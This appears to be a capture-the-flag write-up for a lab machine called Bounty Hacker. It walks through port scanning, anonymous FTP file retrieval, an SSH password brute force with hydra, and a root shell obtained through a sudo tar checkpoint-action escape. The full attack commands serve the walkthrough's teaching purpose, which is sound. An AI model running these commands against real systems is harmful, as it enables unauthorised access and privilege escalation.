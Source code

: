 # Bounty Hacker

## Scanning and Enumeration

IP - 10.10.118.213


nmap scan:
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.6.41.41
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|http-title: Site doesn't have a title (text/html).
| http-methods:
|  Supported Methods: GET HEAD POST OPTIONS
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 4.15 (97%), Android 9 - 10 (Linux 4.9 - 4.14) (93%), Linux 2.6.32 - 3.13 (93%), Linux 3.2 - 4.14 (93%), Linux 4.15 - 5.19 (93%), Linux 2.6.32 - 3.10 (93%), Linux 5.4 (92%), Linux 3.10 - 4.11 (91%), Linux 2.6.32 - 3.5 (89%), HP P2000 G3 NAS device (88%)
```
dirsearch:
```
[19:39:16] 301 -   315B - /images  ->  http://10.10.118.213/images/

[19:39:16] 200 -   938B - /images/

[19:39:17] 200 -   969B - /index.html

[19:39:31] 403 -   278B - /server-status/

[19:39:31] 403 -   278B - /server-status
```

## FTP Server Access and File Transfer
Successfully logged into FTP server using Anonymous as username.


![image](https://github.com/user-attachments/assets/c36409e5-bd4d-4771-87b8-494bae4b3a18)

after typing "ls" and waiting for few seconds I found two .txt files

![image](https://github.com/user-attachments/assets/4ec8fd12-fa0d-4331-8031-166deb645f1f)

When running this command ``` wget --ftp-user=Anonymous ftp://10.10.118.213/locks.txt ``` to transfer the files over to my machine I got an error: "==> PASV ... couldn't connect to 10.10.118.213 port 18667: Connection timed out"

I successfully got it to work after changing the command to - ``` wget --ftp-user=Anonymous --no-passive-ftp ftp://10.10.118.213/locks.txt ```

![image](https://github.com/user-attachments/assets/242a97c5-1854-46aa-aa15-c6bbd181a4ef)


Found out that the person who wrote task list is Lin

![image](https://github.com/user-attachments/assets/7ff5ad08-3daf-4fe4-927a-a79f494140c1)

## SSH Brute Force using Hydra

Used locks.txt file to brute force ssh by using this command - ``` hydra -l lin -P locks.txt -t 4 -V ssh://10.10.27.97  ```

![image](https://github.com/user-attachments/assets/b822493c-cb95-4544-8c0b-5b1c18b38486)

Successfully logged into SSH and got the user.txt flag

![image](https://github.com/user-attachments/assets/35e53d7a-c3c2-4a78-80e8-d99df17ee26d)

## Privilege Escalation

Found lin's permissions -
``` 
lin@bountyhacker:/$ sudo -l
User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

To get elevated permissions to root I used this command - ``` sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh ```


reference - https://gtfobins.github.io/gtfobins/tar/#sudo

![image](https://github.com/user-attachments/assets/a91470bb-8a99-45c2-aa8c-08f4518b42f6)




